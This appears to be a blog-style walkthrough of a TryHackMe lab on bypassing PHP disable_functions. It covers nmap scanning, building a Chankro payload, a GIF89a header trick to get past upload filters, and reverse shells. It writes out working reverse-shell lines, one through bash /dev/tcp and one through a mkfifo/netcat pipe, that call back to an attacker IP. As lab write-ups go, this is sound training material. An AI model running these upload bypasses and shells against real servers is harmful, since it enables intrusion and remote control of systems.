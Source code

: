 ```yaml
---
title: "TryHackme: Bypass Disable Functions"
author: NeoVirex
categories: [TryHackMe]
tags: [thm]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_bypass_disable_functions/
image:
  path: room_img.png
description: "good"
---
```

# Bypass Disable Functions

Created: April 9, 2025 5:36 PM
Finishing Date: April 8, 2025
Status: Done

### 🛡️ TryHackMe: "Bypass Disabled Functions" Challenge — Full Walkthrough

---

### **1. Initial Reconnaissance with Nmap**

- **Command Used:**
    
    ```bash
    nmap -p- -n -T5 -v --open -oG full-scan.txt [Target_IP]
    
    ```
    
- **Explanation of Options:**
    - `p-`: Scan all 65,536 ports.
    - `n`: Disable DNS resolution to speed up scanning.
    - `T5`: Set aggressive timing for faster scan.
    - `v`: Verbose output.
    - `-open`: Show only open ports.
    - `oG`: Output in grep-able format.
- **Result:** Discovered open ports `22` (SSH) and `80` (HTTP).

---

### **2. Service Enumeration**

- **Command Used:**
    
    ```bash
    nmap -sC -sV -p22,80 [Target_IP]
    
    ```
    
- **Explanation of Options:**
    - `sC`: Run default scripts (basic info gathering).
    - `sV`: Detect version info for each service.
- **Result:** Basic service info gathered — SSH and a web server running on port 80. Next step: manual web enumeration.

---

### **3. Web Exploration & PHP Info Page**

- **Findings:**
    - A **file upload** page is available.
    - A **`phpinfo.php`** file reveals important PHP settings.
- **Critical Insight from `phpinfo()`:**
    - Common execution functions like `exec`, `system`, `shell_exec`, etc. are **disabled** via `disable_functions`.

---

### **4. Exploiting PHP Mail Function with Chankro**

- **What is Chankro?**
    - A tool that **bypasses disabled PHP functions** using `mail()` and environment variable manipulation via `putenv()`.
- **Steps:**
    1. Create a shell script:
        
        ```bash
        #!/bin/bash
        whoami > /var/www/html/[web_path]/winsad.txt
        
        ```
        
        Save as `command.sh`.
        
    2. Run Chankro:
        
        ```bash
        ./chankro -arch 64 -input command.sh -output winsad.php -path /var/www/html/[web_path]/
        
        ```
        
    3. Add **GIF header** to bypass upload filters:
        
        ```bash
        sed -i '1s/^/<?php echo "GIF89a"; ?>\n/' winsad.php
        
        ```
        

---

### **5. Uploading & Executing Payload**

- **Upload Trick:** Rename the PHP payload with `.php` extension, but prepend `GIF89a;` to bypass image validation.
- **Accessing Payload:**
    - Navigate to:
        
        `http://[Target_IP]/[upload_path]/winsad.php`
        
- **Confirm Execution:** Check `winsad.txt` for output.

---

### **6. Getting a Reverse Shell**

- **Update `command.sh`:**
    
    ```bash
    #!/bin/bash
    bash -c 'bash -i >& /dev/tcp/[Your_IP]/443 0>&1'
    
    ```
    
- **Repeat Chankro Build:**
    
    ```bash
    ./chankro -arch 64 -input command.sh -output winsad.php -path /var/www/html/[web_path]/
    
    ```
    
- **Upload Again**, add GIF header, and host a listener:
    
    ```bash
    nc -lnvp 443
    
    ```
    
- **Trigger Shell:**
    - Visit the uploaded PHP file URL in your browser.

---

### **7. Post-Exploitation: Finding the Flag**

- **Shell Session Output:**
    
    ```bash
    www-data@ubuntu:/var/www/html/[path]/uploads$ ls
    acpid.socket  chankro.so  shell.php  try.php
    
    ```
    
- **Navigate to Home Directory:**
    
    ```bash
    cd /home
    ls
    cd s4vi
    ls
    cat flag.txt
    
    ```
    
- **Flag Output:**
    
    ```bash
    head -c 100 flag.txt; echo
    thm{bypass_d1sable_functions_1n_php}
    
    ```
    

---

### **8. Alternative Reverse Shell using Named Pipe**

- **Command:**
    
    ```bash
    rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc [Your_IP] 9001 > /tmp/f
    
    ```
    
- **Listener Setup:**
    
    ```bash
    nc -lnvp 9001
    
    ```
    
- **Note:** Some `nc` versions (like OpenBSD) do **not support `c`** (e.g., `nc -c sh`). Use traditional methods instead.

---

### 📌 Summary:

This challenge tests your ability to:

- Enumerate and identify PHP restrictions.
- Use tools like **Chankro** to bypass disabled functions.
- Upload files while bypassing content filters.
- Establish a **reverse shell** and extract sensitive data (like flags).

All steps above were **essential** for achieving shell access and solving the room.

---

<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
